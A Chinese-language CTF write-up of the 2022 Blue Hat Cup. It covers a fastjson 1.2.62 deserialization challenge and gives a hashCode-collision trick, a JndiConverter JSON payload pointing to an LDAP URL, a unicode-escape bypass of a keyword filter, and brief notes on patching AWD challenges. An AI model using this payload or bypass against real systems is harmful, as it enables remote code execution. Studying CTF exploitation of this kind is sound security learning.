




# 2022 蓝帽杯 WP
## 前言

- 先说说初赛吧，初赛的题目比较简单，但是当时的我太菜了哈哈，不会。

现在正好趁着这个机会一起写了复现一遍。

## 初赛
### ezgadget

#### 题目分析

- 是一道 fastjson 1.2.62 的反序列化，当时还不会，现在就简单多了，尝试复现一下。

漏洞接口在 `/json` 这里

首先要求我们输入的参数 str 的 hashCode 与 secret 的 hashCode 相同，这个蛮简单的。

当时这一步也是出来了，因为简单看了一下 hashCode 的加密方法，是这样的。

hashCode() 方法用于返回字符串的哈希码。

字符串对象的哈希码根据以下公式计算：

```none
s[0]*31^(n-1) + s[1]*31^(n-2) + ... + s[n-1]
```

使用 int 算法，这里 `s[i]` 是字符串的第 i 个字符的 ASCII 码，n 是字符串的长度，`^` 表示求幂。空字符串的哈希值为 0。

当时我就想到了，既然如此，那我只要保证前两位的 hashCode 相同，后面一样照抄就好了。

我这里的 key 是 **5tH96uJyZ6SWxWR6**

把前两位拿出来，5t，找一个和它相同的 hashCode 即可。

根据算法：

```none
53 × 31 + 116 × 1 = 1759
```

我这里再用 

```none
( 1759 - 116 - 31 ) ÷ 31 = 52
```

经典数学问题了属于是，因为 116 + 31 的 ASCII 码没有，所以尝试这样：

```none
( 1759 - 116 + 31 ) ÷ 31 = 54
```

116 - 31 = 85 ---》 U

54 对应的是 6；所以未 6U

验证一下，确实如此。



所以这里第一步是过去了。

- 关于 fastjson 1.2.62 版本的漏洞，需要开启 AutoType，且需要存在 xbean-reflect 包。

题目这里是刚好满足的。



关于 fastjson 1.2.62 的洞的原理，可以看我这一篇文章：[Java反序列化Fastjson篇04-Fastjson1.2.62-1.2.68版本反序列化漏洞](https://drun1baby.github.io/2022/08/13/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8704-Fastjson1-2-62-1-2-68%E7%89%88%E6%9C%AC%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/)

直接 payload：

```json
"{

\"@type\":\"org.apache.xbean.propertyeditor.JndiConverter\", 
\"AsText\":\"ldap://127.0.0.1:1234/ExportObject\"

}"
```

但是这个地方被过滤了几个关键字：`rmi,jndi,ldap`，我们要通过 unicode 的方式来绕过:

在 `com.alibaba.fastjson.parser.JSONLexerBase#scanSymbol` 当中可以看见，如果遇到了 `\u` 或者 `\x` 会有解码操作



#### exp 利用

先在 VPS 开启弹 shell 服务


接着，exp 打

…………………… 麻了，复现失败。。。。

尝试着本地试一下吧


## 决赛 AWD Plus 环节
附件已经同步至 GitHub 

[Drun1baby/CTFReposityStore](https://github.com/Drun1baby/CTFReposityStore)

- AWD Plus 确实防守优先，因为防守是每轮都在加分的。

第一题：

### fish

比较简单，补完整正则即可。说实话，我感觉这个题目出的挺奇怪的，我本地访问不了他给的后面的那个文件夹，很奇怪。

至于修复的话，补正则即可


### src，webshell 检测系统

这题目没给 .sql；怎么说呢……………………

修复也比较简单，一看就是对文件上传没过滤，几分钟就做出来了



### Java 题目

- 已知是一个 Java 华夏 erp v2.3 的 CMS

但是魔改了很多，比如 fastjson 的洞就是没有的，之前一直以为是未授权的洞和 sql 注入的洞，或者是 xss 的洞，但是我tmd；自己打包出了问题，真的是头大了。

就是一个 fastjson 的漏洞，真的简单，无语死了。

2022.9.30；决定回顾一下，把当时没做出来的这个修复好好看一遍。当时自己其实，问题蛮大的，还有一个是环境上的大问题，我无法打包 jar 包

所以暂定两个目的：

1. 修洞
2. 环境上，打包 jar 包的解决


